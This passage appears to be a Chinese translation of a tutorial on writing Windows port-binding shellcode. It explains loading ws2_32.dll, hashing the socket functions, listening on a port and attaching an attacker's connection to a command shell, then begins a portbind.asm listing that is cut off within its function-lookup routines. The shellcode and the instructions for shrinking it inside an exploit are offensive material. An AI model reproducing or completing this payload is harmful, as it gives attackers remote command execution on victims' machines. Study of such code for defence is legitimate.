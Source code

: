 这个进程主要的不同是我们需要找到网络函数,它不在Kernel32.dll中.这意味着我们需要使用LoadLibraryA加载”ws2_32.dll”,它里面包含有如下我们想调用的函数：

    - WSASocketA

    - bind

    - socket

    - accept

    - WSAStartup

需要为所有这些函数创建函数hash,这已经在之前的教程中演示了。

这些网络函数中的每一个函数都将被用于安装一个监听的端口,它准备接受连接.一旦攻击者做好了连接,它们的客户端socket被连接到一个新的命令shell进程,这使得攻击者可以发送远程命令到系统中

我们需要WSAStartup和ExitProcess函数吗？

WSAStartup函数被使用于在一个进程中初始化网络服务.如果我们的”shellcodetest”程序没有网络连接那么我们需要从我们的shellcode中调用这个函数.

如果shellcode被包含在一个exploit中,它对已经初始化了网络的进程（例如网络浏览器,iis或Apache）进行exploit之后这个函数可能被忽略以让shellcode变得更小.

同样如果大小限制的严格ExitProcess函数可能也会被忽略.主进程将挂起

If either of these are taken out then you also need to update the "hash list length" within the shellcode for ws2_32 and Kernel32, respectively. This is noted in the shellcode below.

如果这些函数都被除去了,那么你需要在ws2_32和Kernel32的shellcode内各自地更新”hash list length”,记住如下shellcode

The Shellcode

```
+--------------- Start portbind.asm --------------+
;portbind.asm
[SECTION .text]
BITS 32
global _start
_start:
    jmp start_asm
;DEFINE FUNCTIONS
;FUNCTION: find_kernel32
find_kernel32:
    push esi
    xor eax, eax
    mov eax, [fs:eax+0x30]
    test eax, eax
    js find_kernel32_9x
find_kernel32_nt:
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov eax, [eax + 0x8]
    jmp find_kernel32_finished
find_kernel32_9x:
    mov eax, [eax + 0x34]
    lea eax, [eax + 0x7c]
    mov eax, [eax + 0x3c]
find_kernel32_finished:
    pop esi
    ret
;END FUNCTION: find_kernel32
;FUNCTION: find_function
find_function:
    pushad
    mov ebp, [esp + 0x24]
    mov eax, [ebp + 0x3c]
    mov edx, [ebp + eax + 0x78]
    add edx, ebp
    mov ecx, [edx + 0x18]
    mov ebx, [edx + 0x20]
```